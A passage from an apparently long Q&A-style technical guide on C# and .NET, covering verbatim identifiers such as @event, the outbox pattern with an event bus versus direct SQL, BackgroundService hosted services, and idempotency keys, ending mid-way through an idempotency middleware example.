        _events.Add(@event);
        
        // But use different names internally
        var eventToProcess = @event;
        var eventData = SerializeEvent(eventToProcess);
    }
}

// Option 3: Domain-specific naming
public class DomainSpecificNaming
{
    public void RecordOccurrence(DomainEvent occurrence) { }
    public void StoreActivity(DomainEvent activity) { }
    public void LogChange(DomainEvent change) { }
}
```

### When to Use @ vs Alternative Names

```csharp
public class WhenToUseAtSymbol
{
    // Good use of @: When "event" is the domain term
    public async Task PublishDomainEvent(DomainEvent @event)
    {
        // In domain-driven design, "event" is the ubiquitous language term
        await _eventStore.Store(@event);
        await _eventBus.Publish(@event);
    }
    
    // Avoid @: When it makes code less readable
    public class ConfusingUse
    {
        private string @string;  // Confusing
        private int @int;        // Very confusing
        private bool @true;      // Don't do this!
        
        public void Process()
        {
            @string = "hello";   // Hard to read
            @int = 42;          // Looks like a type
            @true = false;      // Very confusing!
        }
    }
    
    // Better: Use descriptive names
    public class BetterNaming
    {
        private string message;
        private int count;
        private bool isEnabled;
    }
}
```

### Real-World Outbox Pattern Example

```csharp
public class OrderService
{
    private readonly IDbContext _dbContext;
    
    public async Task CreateOrder(CreateOrderCommand command)
    {
        using var transaction = await _dbContext.BeginTransactionAsync();
        
        try
        {
            // Business logic
            var order = new Order
            {
                Id = Guid.NewGuid(),
                CustomerId = command.CustomerId,
                Items = command.Items,
                TotalAmount = CalculateTotal(command.Items)
            };
            
            await _dbContext.Orders.AddAsync(order);
            
            // Create domain event
            var @event = new OrderCreatedEvent
            {
                OrderId = order.Id,
                CustomerId = order.CustomerId,
                TotalAmount = order.TotalAmount,
                OccurredAt = DateTime.UtcNow
            };
            
            // Save to outbox (same transaction)
            var outboxMessage = new OutboxMessage
            {
                Id = Guid.NewGuid(),
                EventType = @event.GetType().AssemblyQualifiedName,
                EventData = JsonSerializer.Serialize(@event),
                CreatedAt = DateTime.UtcNow
            };
            
            await _dbContext.OutboxMessages.AddAsync(outboxMessage);
            
            // Commit both order and outbox message atomically
            await _dbContext.SaveChangesAsync();
            await transaction.CommitAsync();
        }
        catch
        {
            await transaction.RollbackAsync();
            throw;
        }
    }
}

// Background service processes outbox
public class OutboxBackgroundService : BackgroundService
{
    protected override async Task ExecuteAsync(CancellationToken stoppingToken)
    {
        while (!stoppingToken.IsCancellationRequested)
        {
            var messages = await GetUnprocessedMessages();
            
            foreach (var message in messages)
            {
                // Deserialize event - using @event because it's natural
                var @event = DeserializeMessage(message);
                
                try
                {
                    // Publish event to message bus
                    await _messageBus.PublishAsync(@event);
                    
                    // Mark as processed
                    await MarkAsProcessed(message);
                }
                catch (Exception ex)
                {
                    await HandleFailure(message, ex);
                }
            }
            
            await Task.Delay(TimeSpan.FromSeconds(5), stoppingToken);
        }
    }
}
```

### C# Language Design Perspective

```csharp
// Why C# has @ for verbatim identifiers

// 1. Interoperability with other languages
public class InteropExample
{
    // Some languages don't have "class" as a keyword
    // C# code might need to interact with them
    public void ProcessData(dynamic @class)
    {
        var className = @class.GetType().Name;
    }
}

// 2. Future-proofing code
public class FutureProofing
{
    // If C# adds new keywords in future versions,
    // existing code using @ won't break
    
    private string @await;  // If 'await' wasn't a keyword before
    private string @async;  // If 'async' wasn't a keyword before
    private string @record; // 'record' was added in C# 9
}

// 3. Code generation scenarios
public class CodeGenerator
{
    public string GenerateProperty(string propertyName)
    {
        // Safely handle any property name, even keywords
        return $"public string @{propertyName} {{ get; set; }}";
    }
}

// 4. Working with external data
public class JsonMapping
{
    // JSON property might be named "event"
    [JsonPropertyName("event")]
    public string @event { get; set; }
    
    [JsonPropertyName("class")]
    public string @class { get; set; }
}
```

**Key Insight**: The @event naming in the Outbox pattern uses C#'s verbatim identifier feature (@) to use the domain-appropriate term "event" despite it being a reserved keyword. This makes the code more readable and maintains consistency with domain-driven design terminology where "event" is the natural term for domain events.

## 54. Why does Outbox talk to the event bus? Is SQL faster?

### Understanding the Outbox-EventBus Relationship

**Quick Answer**: The Outbox pattern talks to the event bus to ensure reliable message delivery in distributed systems. While direct SQL-to-SQL communication might be faster for simple scenarios, the event bus provides crucial benefits: decoupling, scalability, multiple consumers, and resilience that make it the better choice for microservices architectures.

### Why Outbox Uses Event Bus

```yaml
Outbox → Event Bus Flow:
  1. Business Operation:
     - Service A updates its database
     - Stores event in outbox table (same transaction)
     
  2. Outbox Processor:
     - Reads unprocessed events from outbox
     - Publishes to event bus
     - Marks as processed
     
  3. Event Bus:
     - Distributes events to subscribers
     - Handles retry/dead letter queues
     - Provides pub/sub semantics
     
  4. Consumers:
     - Service B, C, D receive events
     - Process independently
     - Can scale horizontally
```

### SQL vs Event Bus Performance

```csharp
// Direct SQL approach (seems faster but problematic)
public class DirectSqlApproach
{
    public async Task NotifyOtherServicesViaSQL()
    {
        // Service A directly writes to Service B's database
        using var connection = new SqlConnection(serviceBConnectionString);
        await connection.ExecuteAsync(
            "INSERT INTO ServiceB.IncomingEvents (EventData) VALUES (@data)",
            new { data = eventData });
        
        // Problems:
        // 1. Tight coupling - Service A knows Service B's schema
        // 2. No retry mechanism
        // 3. Synchronous - blocks Service A
        // 4. Can't add new consumers easily
        // 5. Cross-database transactions are complex
    }
}

// Event Bus approach (more robust)
public class EventBusApproach
{
    private readonly IEventBus _eventBus;
    private readonly IDbContext _dbContext;
    
    public async Task NotifyOtherServicesViaEventBus()
    {
        // Service A publishes to event bus
        var @event = new OrderCreatedEvent { /* data */ };
        
        // Store in outbox first (guaranteed delivery)
        await _dbContext.OutboxMessages.AddAsync(new OutboxMessage
        {
            EventType = @event.GetType().Name,
            EventData = JsonSerializer.Serialize(@event),
            CreatedAt = DateTime.UtcNow
        });
        
        await _dbContext.SaveChangesAsync();
        
        // Background process publishes to event bus
        // Benefits:
        // 1. Loose coupling - publishers don't know consumers
        // 2. Built-in retry/DLQ
        // 3. Asynchronous - doesn't block Service A
        // 4. Easy to add new consumers
        // 5. Each service manages its own data
    }
}
```

### Performance Comparison

```csharp
public class PerformanceComparison
{
    // Benchmark: Notifying 5 services of an event
    
    // SQL Approach - Sequential
    public async Task<TimeSpan> DirectSQLBenchmark()
    {
        var sw = Stopwatch.StartNew();
        
        // Must write to each service's database
        await WriteToServiceB();  // 50ms
        await WriteToServiceC();  // 50ms
        await WriteToServiceD();  // 50ms
        await WriteToServiceE();  // 50ms
        await WriteToServiceF();  // 50ms
        
        return sw.Elapsed; // Total: ~250ms sequential
    }
    
    // SQL Approach - Parallel (risky)
    public async Task<TimeSpan> ParallelSQLBenchmark()
    {
        var sw = Stopwatch.StartNew();
        
        // Parallel writes - but what if one fails?
        await Task.WhenAll(
            WriteToServiceB(),
            WriteToServiceC(),
            WriteToServiceD(),
            WriteToServiceE(),
            WriteToServiceF()
        );
        
        return sw.Elapsed; // Total: ~50ms but no transactional guarantee
    }
    
    // Event Bus Approach
    public async Task<TimeSpan> EventBusBenchmark()
    {
        var sw = Stopwatch.StartNew();
        
        // Single write to outbox
        await WriteToOutbox();  // 10ms
        
        // Background: Publish to event bus (1ms)
        // Event bus handles distribution in parallel
        // Consumers process independently
        
        return sw.Elapsed; // Total: ~10ms for producer
        // Consumers process asynchronously
    }
}
```

### Why Event Bus is Better Despite Latency

```yaml
Decoupling Benefits:
  SQL Approach Problems:
    - Service A must know all consumer schemas
    - Adding new consumer requires code changes
    - Removing consumer requires code changes
    - Schema changes break producers
    
  Event Bus Solutions:
    - Service A only knows event schema
    - Consumers subscribe independently
    - Add/remove consumers without touching producers
    - Schema evolution through versioning

Scalability Benefits:
  SQL Approach Problems:
    - Each consumer adds load to producer
    - Database connections limited
    - Synchronous processing bottleneck
    - Hard to scale individual services
    
  Event Bus Solutions:
    - Producer load independent of consumers
    - Unlimited consumers possible
    - Asynchronous processing
    - Each service scales independently

Reliability Benefits:
  SQL Approach Problems:
    - If Service B is down, transaction fails
    - No built-in retry mechanism
    - Partial failures hard to handle
    - Manual dead letter handling
    
  Event Bus Solutions:
    - Producer succeeds even if consumers down
    - Automatic retry with backoff
    - Dead letter queues
    - Circuit breakers per consumer
```

### Real-World Implementation

```csharp
public class OutboxEventBusIntegration
{
    private readonly IDbContext _dbContext;
    private readonly IEventBus _eventBus;
    private readonly ILogger _logger;
    
    // Producer side - writes to outbox
    public async Task PublishEventAsync<TEvent>(TEvent @event) where TEvent : IEvent
    {
        // Transaction ensures both business data and event are saved
        using var transaction = await _dbContext.BeginTransactionAsync();
        
        try
        {
            // Business operation
            await PerformBusinessOperationAsync();
            
            // Save to outbox (same transaction)
            var outboxMessage = new OutboxMessage
            {
                Id = Guid.NewGuid(),
                EventType = @event.GetType().AssemblyQualifiedName,
                EventData = JsonSerializer.Serialize(@event),
                CreatedAt = DateTime.UtcNow,
                CorrelationId = @event.CorrelationId
            };
            
            await _dbContext.OutboxMessages.AddAsync(outboxMessage);
            await _dbContext.SaveChangesAsync();
            await transaction.CommitAsync();
            
            _logger.LogInformation(
                "Event {EventType} saved to outbox with ID {MessageId}",
                @event.GetType().Name,
                outboxMessage.Id);
        }
        catch
        {
            await transaction.RollbackAsync();
            throw;
        }
    }
    
    // Background processor - publishes to event bus
    public async Task ProcessOutboxAsync(CancellationToken cancellationToken)
    {
        var messages = await _dbContext.OutboxMessages
            .Where(m => m.ProcessedAt == null)
            .OrderBy(m => m.CreatedAt)
            .Take(100)
            .ToListAsync();
        
        foreach (var message in messages)
        {
            try
            {
                // Deserialize event
                var eventType = Type.GetType(message.EventType);
                var @event = JsonSerializer.Deserialize(message.EventData, eventType);
                
                // Publish to event bus with retry
                await _eventBus.PublishAsync(@event, cancellationToken);
                
                // Mark as processed
                message.ProcessedAt = DateTime.UtcNow;
                await _dbContext.SaveChangesAsync();
                
                // Measure latency
                var latency = DateTime.UtcNow - message.CreatedAt;
                _logger.LogInformation(
                    "Published event {EventType} with latency {Latency}ms",
                    eventType.Name,
                    latency.TotalMilliseconds);
            }
            catch (Exception ex)
            {
                _logger.LogError(ex, 
                    "Failed to publish message {MessageId}", 
                    message.Id);
                
                message.RetryCount++;
                message.LastError = ex.Message;
                await _dbContext.SaveChangesAsync();
            }
        }
    }
}
```

### Hybrid Approaches

```csharp
// Sometimes you need both approaches
public class HybridNotification
{
    // Critical, low-latency notifications via direct SQL
    public async Task NotifyCriticalServiceAsync(CriticalEvent @event)
    {
        // For same-datacenter, critical path only
        using var connection = new SqlConnection(criticalServiceConnection);
        await connection.ExecuteAsync(
            "EXEC sp_ProcessCriticalEvent @EventData",
            new { EventData = JsonSerializer.Serialize(@event) });
    }
    
    // Everything else via event bus
    public async Task NotifyStandardServicesAsync(StandardEvent @event)
    {
        await _outboxService.PublishAsync(@event);
    }
    
    // Some scenarios use both
    public async Task ProcessPayment(PaymentRequest request)
    {
        using var transaction = await _dbContext.BeginTransactionAsync();
        
        try
        {
            // Process payment
            var payment = await ProcessPaymentLogic(request);
            
            // Critical: Update account balance immediately (same DB)
            await UpdateAccountBalance(payment);
            
            // Non-critical: Notify other services via event bus
            await _outboxService.PublishAsync(new PaymentProcessedEvent
            {
                PaymentId = payment.Id,
                Amount = payment.Amount,
                CustomerId = payment.CustomerId
            });
            
            await transaction.CommitAsync();
        }
        catch
        {
            await transaction.RollbackAsync();
            throw;
        }
    }
}
```

### Event Bus Technologies Comparison

```yaml
RabbitMQ:
  - Latency: ~1-5ms
  - Throughput: 50k msg/sec
  - Guarantees: At-least-once
  - Best for: General purpose

Apache Kafka:
  - Latency: ~2-10ms
  - Throughput: 1M+ msg/sec
  - Guarantees: Exactly-once possible
  - Best for: High throughput, streaming

Azure Service Bus:
  - Latency: ~10-50ms
  - Throughput: 2k msg/sec per entity
  - Guarantees: At-least-once, sessions
  - Best for: Azure ecosystem

Redis Pub/Sub:
  - Latency: <1ms
  - Throughput: 100k+ msg/sec
  - Guarantees: At-most-once (no persistence)
  - Best for: Real-time, cache invalidation

AWS SQS/SNS:
  - Latency: ~10-100ms
  - Throughput: Unlimited (managed)
  - Guarantees: At-least-once
  - Best for: AWS ecosystem, serverless
```

### When Direct SQL Makes Sense

```csharp
public class WhenToUseDirectSQL
{
    // Scenario 1: Same database/schema
    public async Task UpdateRelatedTables()
    {
        using var transaction = await _connection.BeginTransactionAsync();
        
        // These should be in same transaction, not events
        await _connection.ExecuteAsync(
            "UPDATE Orders SET Status = @status WHERE Id = @id",
            new { status = "Completed", id = orderId });
            
        await _connection.ExecuteAsync(
            "UPDATE OrderItems SET ProcessedAt = @now WHERE OrderId = @id",
            new { now = DateTime.UtcNow, id = orderId });
            
        await transaction.CommitAsync();
    }
    
    // Scenario 2: Reporting/read models in same DB
    public async Task UpdateReadModel()
    {
        // Synchronous denormalization within same database
        await _connection.ExecuteAsync(@"
            INSERT INTO OrderSummary (CustomerId, TotalOrders, TotalAmount)
            SELECT CustomerId, COUNT(*), SUM(TotalAmount)
            FROM Orders
            WHERE CustomerId = @customerId
            GROUP BY CustomerId
            ON CONFLICT (CustomerId) DO UPDATE
            SET TotalOrders = EXCLUDED.TotalOrders,
                TotalAmount = EXCLUDED.TotalAmount",
            new { customerId });
    }
    
    // Scenario 3: Critical synchronous operations
    public async Task<bool> CheckInventoryAndReserve(int productId, int quantity)
    {
        // Must be atomic and immediate
        var reserved = await _connection.QuerySingleAsync<bool>(@"
            UPDATE Inventory 
            SET Available = Available - @quantity,
                Reserved = Reserved + @quantity
            WHERE ProductId = @productId 
                AND Available >= @quantity;
            
            SELECT @@ROWCOUNT > 0;",
            new { productId, quantity });
            
        return reserved;
    }
}
```

### Best Practices

```yaml
Use Outbox + Event Bus When:
  - Multiple services need notification
  - Services are in different databases
  - You need pub/sub semantics
  - Consumers might be offline
  - You want loose coupling
  - Adding new consumers is common
  - Async processing is acceptable

Use Direct SQL When:
  - Same database/transaction needed
  - Synchronous operation required
  - Microsecond latency critical
  - Simple 1-to-1 communication
  - Both services always available
  - Schema unlikely to change

Optimize Event Bus Performance:
  - Batch publishing when possible
  - Use appropriate serialization (MessagePack/Protobuf)
  - Configure connection pooling
  - Monitor and tune throughput
  - Consider regional event buses
  - Use event streaming for high volume
```

**Key Insight**: While direct SQL might be faster in raw latency terms, the Outbox pattern with Event Bus provides essential benefits for distributed systems: loose coupling, independent scaling, resilience, and flexibility that far outweigh the small latency cost. The asynchronous nature also prevents cascading failures and allows each service to process events at its own pace.

## 55. Is BackgroundService predefined in .Net? in the outbox Processor?

### BackgroundService in .NET

**Quick Answer**: Yes, `BackgroundService` is a predefined abstract base class in .NET (since .NET Core 2.1) that provides a convenient way to implement long-running background tasks. It's part of `Microsoft.Extensions.Hosting` and is commonly used for outbox processors, making it ideal for implementing background processing patterns.

### BackgroundService Overview

```csharp
// BackgroundService is defined in Microsoft.Extensions.Hosting
namespace Microsoft.Extensions.Hosting
{
    public abstract class BackgroundService : IHostedService, IDisposable
    {
        private Task _executingTask;
        private readonly CancellationTokenSource _stoppingCts = new();

        // The only method you must implement
        protected abstract Task ExecuteAsync(CancellationToken stoppingToken);

        public virtual Task StartAsync(CancellationToken cancellationToken)
        {
            _executingTask = ExecuteAsync(_stoppingCts.Token);
            return _executingTask.IsCompleted ? _executingTask : Task.CompletedTask;
        }

        public virtual async Task StopAsync(CancellationToken cancellationToken)
        {
            if (_executingTask == null) return;
            
            try
            {
                _stoppingCts.Cancel();
            }
            finally
            {
                await Task.WhenAny(_executingTask, 
                    Task.Delay(Timeout.Infinite, cancellationToken));
            }
        }

        public virtual void Dispose()
        {
            _stoppingCts.Cancel();
        }
    }
}
```

### Basic BackgroundService Implementation

```csharp
// Simple example
public class TimedBackgroundService : BackgroundService
{
    private readonly ILogger<TimedBackgroundService> _logger;
    private readonly TimeSpan _period = TimeSpan.FromSeconds(5);

    public TimedBackgroundService(ILogger<TimedBackgroundService> logger)
    {
        _logger = logger;
    }

    protected override async Task ExecuteAsync(CancellationToken stoppingToken)
    {
        // This method runs for the lifetime of the application
        while (!stoppingToken.IsCancellationRequested)
        {
            _logger.LogInformation("Service running at: {time}", DateTimeOffset.Now);
            
            try
            {
                await DoWorkAsync();
                await Task.Delay(_period, stoppingToken);
            }
            catch (OperationCanceledException)
            {
                // When the stopping token is canceled, stop gracefully
                break;
            }
            catch (Exception ex)
            {
                _logger.LogError(ex, "Error occurred executing task");
                // Decide whether to stop or continue
                await Task.Delay(_period, stoppingToken);
            }
        }
    }

    private async Task DoWorkAsync()
    {
        // Your background work here
        await Task.CompletedTask;
    }
}

// Registration in Program.cs or Startup.cs
builder.Services.AddHostedService<TimedBackgroundService>();
```

### Outbox Processor using BackgroundService

```csharp
public class OutboxProcessorService : BackgroundService
{
    private readonly IServiceProvider _serviceProvider;
    private readonly ILogger<OutboxProcessorService> _logger;
    private readonly OutboxOptions _options;

    public OutboxProcessorService(
        IServiceProvider serviceProvider,
        ILogger<OutboxProcessorService> logger,
        IOptions<OutboxOptions> options)
    {
        _serviceProvider = serviceProvider;
        _logger = logger;
        _options = options.Value;
    }

    protected override async Task ExecuteAsync(CancellationToken stoppingToken)
    {
        _logger.LogInformation("Outbox Processor Service started");

        while (!stoppingToken.IsCancellationRequested)
        {
            try
            {
                await ProcessOutboxMessages(stoppingToken);
                
                // Wait before next iteration
                await Task.Delay(_options.PollingInterval, stoppingToken);
            }
            catch (OperationCanceledException)
            {
                // Expected when cancellation is requested
                break;
            }
            catch (Exception ex)
            {
                _logger.LogError(ex, "Error processing outbox messages");
                
                // Wait longer on error
                await Task.Delay(_options.ErrorRetryInterval, stoppingToken);
            }
        }

        _logger.LogInformation("Outbox Processor Service stopped");
    }

    private async Task ProcessOutboxMessages(CancellationToken cancellationToken)
    {
        // Create a new scope for each batch to avoid long-lived DbContext
        using var scope = _serviceProvider.CreateScope();
        var dbContext = scope.ServiceProvider.GetRequiredService<AppDbContext>();
        var messageBus = scope.ServiceProvider.GetRequiredService<IMessageBus>();

        // Get unprocessed messages
        var messages = await dbContext.OutboxMessages
            .Where(m => m.ProcessedAt == null && m.RetryCount < _options.MaxRetries)
            .OrderBy(m => m.CreatedAt)
            .Take(_options.BatchSize)
            .ToListAsync(cancellationToken);

        if (!messages.Any())
        {
            _logger.LogDebug("No outbox messages to process");
            return;
        }

        _logger.LogInformation("Processing {Count} outbox messages", messages.Count);

        foreach (var message in messages)
        {
            if (cancellationToken.IsCancellationRequested)
                break;

            try
            {
                // Deserialize and publish message
                var eventType = Type.GetType(message.EventType);
                var @event = JsonSerializer.Deserialize(message.EventData, eventType);

                await messageBus.PublishAsync(@event, cancellationToken);

                // Mark as processed
                message.ProcessedAt = DateTime.UtcNow;
                _logger.LogDebug("Published message {MessageId} of type {EventType}", 
                    message.Id, eventType.Name);
            }
            catch (Exception ex)
            {
                _logger.LogError(ex, "Failed to process message {MessageId}", message.Id);
                
                message.RetryCount++;
                message.LastError = ex.Message;
                message.LastRetryAt = DateTime.UtcNow;
            }
        }

        // Save all changes in one transaction
        await dbContext.SaveChangesAsync(cancellationToken);
    }
}

// Configuration
public class OutboxOptions
{
    public TimeSpan PollingInterval { get; set; } = TimeSpan.FromSeconds(5);
    public TimeSpan ErrorRetryInterval { get; set; } = TimeSpan.FromSeconds(30);
    public int BatchSize { get; set; } = 100;
    public int MaxRetries { get; set; } = 3;
}
```

### Advanced BackgroundService Patterns

```csharp
// 1. Multiple concurrent processors
public class ConcurrentOutboxProcessor : BackgroundService
{
    private readonly int _concurrency = 5;
    
    protected override async Task ExecuteAsync(CancellationToken stoppingToken)
    {
        var semaphore = new SemaphoreSlim(_concurrency);
        var tasks = new List<Task>();

        while (!stoppingToken.IsCancellationRequested)
        {
            await semaphore.WaitAsync(stoppingToken);

            var task = Task.Run(async () =>
            {
                try
                {
                    await ProcessBatch(stoppingToken);
                }
                finally
                {
                    semaphore.Release();
                }
            }, stoppingToken);

            tasks.Add(task);

            // Clean up completed tasks
            tasks.RemoveAll(t => t.IsCompleted);

            // Small delay to prevent tight loop
            await Task.Delay(100, stoppingToken);
        }

        // Wait for all tasks to complete
        await Task.WhenAll(tasks);
    }
}

// 2. Timer-based processing
public class TimerBasedProcessor : BackgroundService
{
    private Timer _timer;
    
    protected override Task ExecuteAsync(CancellationToken stoppingToken)
    {
        _timer = new Timer(DoWork, null, TimeSpan.Zero, TimeSpan.FromMinutes(1));
        
        // Return completed task as timer runs independently
        return Task.CompletedTask;
    }

    private void DoWork(object state)
    {
        // Timer callback - be careful with async void
        _ = ProcessAsync();
    }

    public override Task StopAsync(CancellationToken cancellationToken)
    {
        _timer?.Change(Timeout.Infinite, 0);
        return base.StopAsync(cancellationToken);
    }

    public override void Dispose()
    {
        _timer?.Dispose();
        base.Dispose();
    }
}

// 3. Channel-based processing for better performance
public class ChannelBasedProcessor : BackgroundService
{
    private readonly Channel<OutboxMessage> _channel;
    
    public ChannelBasedProcessor()
    {
        _channel = Channel.CreateUnbounded<OutboxMessage>(new UnboundedChannelOptions
        {
            SingleReader = true,
            SingleWriter = false
        });
    }

    public async Task EnqueueMessage(OutboxMessage message)
    {
        await _channel.Writer.WriteAsync(message);
    }

    protected override async Task ExecuteAsync(CancellationToken stoppingToken)
    {
        await foreach (var message in _channel.Reader.ReadAllAsync(stoppingToken))
        {
            await ProcessMessage(message, stoppingToken);
        }
    }

    public override async Task StopAsync(CancellationToken cancellationToken)
    {
        _channel.Writer.TryComplete();
        await base.StopAsync(cancellationToken);
    }
}
```

### Multiple BackgroundServices

```csharp
// You can have multiple background services running
public class Startup
{
    public void ConfigureServices(IServiceCollection services)
    {
        // Register multiple background services
        services.AddHostedService<OutboxProcessorService>();
        services.AddHostedService<MetricsCollectorService>();
        services.AddHostedService<HealthCheckService>();
        services.AddHostedService<CacheWarmupService>();
        
        // They all run independently
    }
}

// Coordinating multiple services
public class CoordinatedServices
{
    // Service 1: Reads from database
    public class OutboxReaderService : BackgroundService
    {
        private readonly Channel<OutboxMessage> _channel;
        
        protected override async Task ExecuteAsync(CancellationToken stoppingToken)
        {
            while (!stoppingToken.IsCancellationRequested)
            {
                var messages = await ReadMessagesFromDatabase();
                
                foreach (var message in messages)
                {
                    await _channel.Writer.WriteAsync(message, stoppingToken);
                }
                
                await Task.Delay(TimeSpan.FromSeconds(5), stoppingToken);
            }
        }
    }
    
    // Service 2: Processes messages
    public class OutboxPublisherService : BackgroundService
    {
        private readonly Channel<OutboxMessage> _channel;
        
        protected override async Task ExecuteAsync(CancellationToken stoppingToken)
        {
            await foreach (var message in _channel.Reader.ReadAllAsync(stoppingToken))
            {
                await PublishMessage(message);
            }
        }
    }
}
```

### BackgroundService Lifecycle

```csharp
public class LifecycleAwareService : BackgroundService
{
    private readonly IHostApplicationLifetime _lifetime;
    private readonly ILogger<LifecycleAwareService> _logger;

    public LifecycleAwareService(
        IHostApplicationLifetime lifetime,
        ILogger<LifecycleAwareService> logger)
    {
        _lifetime = lifetime;
        _logger = logger;
    }

    public override Task StartAsync(CancellationToken cancellationToken)
    {
        _lifetime.ApplicationStarted.Register(() =>
        {
            _logger.LogInformation("Application has started");
        });

        _lifetime.ApplicationStopping.Register(() =>
        {
            _logger.LogInformation("Application is stopping");
        });

        _lifetime.ApplicationStopped.Register(() =>
        {
            _logger.LogInformation("Application has stopped");
        });

        return base.StartAsync(cancellationToken);
    }

    protected override async Task ExecuteAsync(CancellationToken stoppingToken)
    {
        // Wait for application to fully start
        await Task.Delay(1000, stoppingToken);

        while (!stoppingToken.IsCancellationRequested)
        {
            try
            {
                await DoWork(stoppingToken);
            }
            catch (Exception ex) when (ex is not OperationCanceledException)
            {
                _logger.LogError(ex, "Unhandled exception in background service");
                
                // Optionally stop the application on critical errors
                // _lifetime.StopApplication();
            }
        }
    }
}
```

### Error Handling and Resilience

```csharp
public class ResilientBackgroundService : BackgroundService
{
    private readonly ILogger<ResilientBackgroundService> _logger;
    private readonly int _maxConsecutiveFailures = 5;
    private int _consecutiveFailures = 0;

    protected override async Task ExecuteAsync(CancellationToken stoppingToken)
    {
        while (!stoppingToken.IsCancellationRequested)
        {
            try
            {
                await ProcessAsync(stoppingToken);
                
                // Reset failure count on success
                _consecutiveFailures = 0;
                
                await Task.Delay(TimeSpan.FromSeconds(5), stoppingToken);
            }
            catch (OperationCanceledException)
            {
                throw; // Let cancellation bubble up
            }
            catch (Exception ex)
            {
                _consecutiveFailures++;
                _logger.LogError(ex, 
                    "Error in background service. Consecutive failures: {Count}", 
                    _consecutiveFailures);

                if (_consecutiveFailures >= _maxConsecutiveFailures)
                {
                    _logger.LogCritical(
                        "Max consecutive failures ({Max}) reached. Stopping service.", 
                        _maxConsecutiveFailures);
                    
                    // Stop the entire application
                    Environment.Exit(1);
                }

                // Exponential backoff
                var delay = TimeSpan.FromSeconds(Math.Pow(2, _consecutiveFailures));
                await Task.Delay(delay, stoppingToken);
            }
        }
    }
}
```

### Testing BackgroundServices

```csharp
public class BackgroundServiceTests
{
    [Fact]
    public async Task BackgroundService_ProcessesMessages()
    {
        // Arrange
        var services = new ServiceCollection();
        services.AddSingleton<IMessageBus, MockMessageBus>();
        services.AddDbContext<AppDbContext>(options => 
            options.UseInMemoryDatabase("test"));
        services.AddHostedService<OutboxProcessorService>();
        
        var provider = services.BuildServiceProvider();
        var hostedService = provider.GetRequiredService<IHostedService>();
        
        // Act
        var cts = new CancellationTokenSource();
        await hostedService.StartAsync(cts.Token);
        
        // Give it time to process
        await Task.Delay(TimeSpan.FromSeconds(2));
        
        // Stop service
        cts.Cancel();
        await hostedService.StopAsync(CancellationToken.None);
        
        // Assert
        var messageBus = provider.GetRequiredService<IMessageBus>() as MockMessageBus;
        Assert.True(messageBus.PublishedMessages.Any());
    }
}
```

**Key Insight**: BackgroundService is indeed a predefined abstract class in .NET that simplifies implementing long-running background tasks. It handles the complex lifecycle management, cancellation tokens, and integration with the .NET hosting model, making it perfect for implementing patterns like outbox processors where you need reliable, continuous background processing.

## 56. Explain idempotency and the the idempotency key is generated and sent from the host? When is a new key created? Why does it matter for caching?

### Understanding Idempotency

**Quick Answer**: Idempotency means an operation can be performed multiple times without changing the result beyond the initial application. An idempotency key is a unique identifier generated by the client/host that ensures duplicate requests (due to retries, network issues) produce the same result. New keys are created for each distinct business operation, and they matter for caching because they allow safe result caching and replay.

### What is Idempotency?

```yaml
Idempotency Definition:
  Mathematical: f(f(x)) = f(x)
  Practical: Calling an API multiple times with same request produces same result
  
Examples:
  Idempotent Operations:
    - GET request (reading data)
    - PUT with full resource update
    - DELETE (deleting already deleted item)
    - Setting a value to specific state
    
  Non-Idempotent Operations:
    - POST creating new resources
    - Incrementing a counter
    - Transferring money
    - Appending to a list
```

### Idempotency Key Generation

```csharp
public class IdempotencyKeyGenerator
{
    // Client-side generation approaches
    
    // 1. Random UUID (most common)
    public string GenerateRandomKey()
    {
        return Guid.NewGuid().ToString();
    }
    
    // 2. Deterministic based on request content
    public string GenerateDeterministicKey(object request)
    {
        var json = JsonSerializer.Serialize(request);
        using var sha256 = SHA256.Create();
        var hash = sha256.ComputeHash(Encoding.UTF8.GetBytes(json));
        return Convert.ToBase64String(hash);
    }
    
    // 3. Business operation based
    public string GenerateBusinessKey(string userId, string operationType, DateTime timestamp)
    {
        // Combines business context to create unique key
        var key = $"{userId}:{operationType}:{timestamp:yyyyMMddHHmmss}";
        return Convert.ToBase64String(Encoding.UTF8.GetBytes(key));
    }
    
    // 4. Composite key with metadata
    public string GenerateCompositeKey(IdempotencyContext context)
    {
        var components = new
        {
            UserId = context.UserId,
            SessionId = context.SessionId,
            RequestId = Guid.NewGuid(),
            Timestamp = DateTimeOffset.UtcNow.ToUnixTimeSeconds(),
            Operation = context.OperationType
        };
        
        var json = JsonSerializer.Serialize(components);
        return Convert.ToBase64String(Encoding.UTF8.GetBytes(json));
    }
}

// Client-side implementation
public class ApiClient
{
    private readonly HttpClient _httpClient;
    private readonly IdempotencyKeyGenerator _keyGenerator;
    
    public async Task<PaymentResult> CreatePaymentAsync(PaymentRequest request)
    {
        // Generate idempotency key for this specific payment request
        var idempotencyKey = _keyGenerator.GenerateRandomKey();
        
        var httpRequest = new HttpRequestMessage(HttpMethod.Post, "/api/payments")
        {
            Content = JsonContent.Create(request)
        };
        
        // Send idempotency key in header
        httpRequest.Headers.Add("Idempotency-Key", idempotencyKey);
        
        var response = await _httpClient.SendAsync(httpRequest);
        
        if (response.StatusCode == HttpStatusCode.Conflict)
        {
            // Idempotent conflict - return cached result
            return await response.Content.ReadFromJsonAsync<PaymentResult>();
        }
        
        response.EnsureSuccessStatusCode();
        return await response.Content.ReadFromJsonAsync<PaymentResult>();
    }
}
```

### Server-Side Idempotency Implementation

```csharp
public class IdempotencyMiddleware
{
    private readonly RequestDelegate _next;
    private readonly IIdempotencyStore _store;
    private readonly ILogger<IdempotencyMiddleware> _logger;
    
    public async Task InvokeAsync(HttpContext context)
    {
        // Only apply to state-changing operations
        if (!IsIdempotentOperation(context.Request))
        {
            await _next(context);
            return;
        }
        
        var idempotencyKey = context.Request.Headers["Idempotency-Key"].FirstOrDefault();
        
        if (string.IsNullOrEmpty(idempotencyKey))
        {
            context.Response.StatusCode = 400;
            await context.Response.WriteAsync("Idempotency-Key header required");
            return;
        }
        
        // Check if we've seen this key before
        var cachedResult = await _store.GetAsync(idempotencyKey);
        
        if (cachedResult != null)
        {
            // Return cached response
            _logger.LogInformation("Returning cached response for key {Key}", idempotencyKey);
            
            context.Response.StatusCode = cachedResult.StatusCode;
            foreach (var header in cachedResult.Headers)
            {
                context.Response.Headers[header.Key] = header.Value;
            }
            
            await context.Response.WriteAsync(cachedResult.Body);
            return;
        }
        
        // Lock to prevent concurrent processing of same key
        using (await _store.AcquireLockAsync(idempotencyKey))
        {
            // Double-check after acquiring lock
            cachedResult = await _store.GetAsync(idempotencyKey);
            if (cachedResult != null)
            {
                await WriteCachedResponse(context, cachedResult);
                return;
            }
            
            // Capture response for caching
